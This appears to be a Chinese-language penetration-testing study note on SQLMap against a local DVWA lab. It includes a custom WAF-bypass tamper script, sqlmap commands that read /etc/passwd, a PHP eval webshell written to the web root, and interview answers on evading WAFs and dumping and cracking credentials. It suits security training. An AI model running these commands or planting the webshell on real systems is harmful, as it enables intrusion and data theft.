- 

### 5.5 自定义 Tamper 脚本示例

**场景**：WAF 过滤了 `UNION` 和 `SELECT`

```python
#!/usr/bin/env python
# tamper/myfilter.py
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    if payload:
        payload = payload.replace("UNION", "/*!50000UNION*/")
        payload = payload.replace("SELECT", "/*!50000SELECT*/")
    return payload
```

**使用**：
```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --tamper "space2comment" \
       --batch
```



---

## 六、SQLMap 文件读写（高权限）

### 6.1 读取文件

**前提**：数据库用户有 FILE 权限（高权限）

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --file-read "/etc/passwd" \
       --batch
```

**预期输出**：
```
[14:40:01] [INFO] fetching file: '/etc/passwd'
[14:40:02] [INFO] the file has been successfully written to '/root/.local/share/sqlmap/output/target.com/files/_etc_passwd'
```



*说明：读取失败，文件没有file权限*


### 6.2 写入文件（GetShell）

```bash
# 先创建 WebShell
echo '<?php @eval($_POST["cmd"]); ?>' > /tmp/shell.php

# 尝试写入
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --file-write "/tmp/shell.php" \
       --file-dest "C:/phpstudy_pro/WWW/dvwa/shell.php" \
       --batch
```

**参数说明**：
- `--file-write`：本地 WebShell 路径
- `--file-dest`：目标服务器写入路径



*说明：写入失败，文件权限不足*

**成功条件**：

1. 数据库用户拥有 FILE 权限
2. `secure_file_priv` 允许目标路径
3. DBMS 进程用户对目标路径有写入权限
4. 知道目标服务器的绝对路径

---

## 七、SQLMap 与手工注入对比总结

### 7.1 面试口述框架

**Q：SQLMap 检测注入的原理是什么？**

> "SQLMap 通过发送一系列精心构造的 Payload 到目标参数，根据响应的差异（如页面内容、HTTP 状态码、响应时间）判断是否存在注入。它支持多种检测技术：布尔盲注（对比 True/False 页面差异）、时间盲注（通过延迟判断）、报错注入（触发数据库错误）、Union 注入（直接回显数据）。"

**Q：SQLMap 和手工注入怎么选？**

> "常规扫描和大量数据导出用 SQLMap，提高效率；复杂场景（如 WAF 严格过滤、需要二次注入、需要构造特定 Payload）用手工注入。实际工作中两者结合，SQLMap 快速定位，手工深入利用。"

**Q：WAF 拦截 SQLMap 怎么办？**

> "三步走：第一，--random-agent 和 --delay 降低被检测概率；第二，--tamper 脚本对 Payload 编码混淆，如 space2comment 替换空格、base64encode 编码；第三，如果标准脚本不行，自定义 Tamper 脚本针对 WAF 规则绕过。"

### 7.2 核心参数速记口诀

```
-u 指定目标，--dbs 拿库名
--tables 拿表，--columns 拿列
--dump 导出，-D -T -C 精确指定
--batch 全自动，--level 测深度
--tamper 绕 WAF，--cookie 带登录
```

---

## 八、今日产出清单

| 产出 | 状态 |
|------|------|
| 检测注入点 | `--batch` 自动检测 |
| 获取数据库名 | `--dbs` |
| 获取表名 | `-D dvwa --tables` |
| 获取列名 | `-D dvwa -T users --columns` |
| 导出数据 | `--dump` |
| 自动破解 MD5 | 内置字典破解 |
| POST 注入 | `--data` |
| Cookie 注入 | `--level 2` |
| Tamper 绕过 | `--tamper` |
| 文件读写 | `--file-read/write` |

---

## 九、面试高频题

**Q1：SQLMap 的 --level 和 --risk 有什么区别？**

> "--level 控制检测的深度，从 1 到 5，level 越高检测的位置越多（1只测 GET/POST，5测所有 HTTP 头）。--risk 控制 Payload 的激进程度，从 1 到 3，risk 越高使用的 Payload 越危险（可能修改/删除数据）。生产环境建议 --level 2 --risk 1，避免破坏数据。"

**Q2：SQLMap 怎么绕过 WAF？**

> "三步走：第一，--random-agent 和 --delay 降低被检测概率；第二，--tamper 脚本对 Payload 编码混淆，如 space2comment 替换空格、base64encode 编码；第三，如果标准脚本不行，自定义 Tamper 脚本针对 WAF 规则绕过。"

**Q3：SQLMap 能做什么手工注入做不到的事？**

> "批量自动化检测大量 URL、自动识别数据库类型、内置字典自动破解密码哈希、多线程快速导出大量数据。但复杂逻辑漏洞（如二次注入、条件竞争）还是需要手工分析。"

**Q4：SQLMap 的 --batch 参数有什么用？**

> "--batch 让 SQLMap 自动选择默认选项，不需要人工交互。适合批量扫描和自动化脚本，但可能错过一些需要人工判断的场景。"

**Q5：SQLMap 读取文件需要什么条件？**

> "需要数据库用户有 FILE 权限（MySQL 的 file_priv），且知道目标服务器的绝对路径。通常需要高权限用户（如 root）。"

---

## 十、参考资源

- SQLMap 官方文档：https://sqlmap.org/
- SQLMap GitHub：https://github.com/sqlmapproject/sqlmap
- Tamper 脚本大全：https://github.com/sqlmapproject/sqlmap/tree/master/tamper
- 渗透测试实战：用 SQLMap 打靶场

---

> **笔记整理日期**：2026-07-19
